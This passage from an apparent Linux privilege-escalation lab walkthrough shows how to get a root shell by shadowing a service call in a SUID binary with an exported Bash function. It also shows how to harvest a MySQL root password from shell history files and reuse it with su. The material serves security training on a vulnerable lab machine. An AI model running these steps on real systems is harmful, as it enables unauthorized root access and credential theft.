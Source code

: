     This is free software; you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    ```

- Create a Bash function with the name "`/usr/sbin/service`" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

    ```bash
    user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
    user@debian:~$ export -f /usr/sbin/service
    ```

- Run the suid-env2 executable to gain a root shell:

    ```bash
    user@debian:~$ /usr/local/bin/suid-env2
    root@debian:~#
    ```

## Passwords & Keys - History Files
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

- View the contents of all the hidden history files in the user's home directory:

    ```bash
    user@debian:~$ cat ~/.*history | less
    ls -al
    cat .bash_history 
    ls -al
    mysql -h somehost.local -uroot -ppassword123
    exit
    cd /tmp
    clear
    ifconfig
    netstat -antp
    nano myvpn.ovpn 
    ls
    identify
    ```

    Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

- Switch to the root user, using the password:

    ```bash
    user@debian:~$ su root
    Password: 
    root@debian:/home/user#
    ```

- What is the full mysql command the user executed?
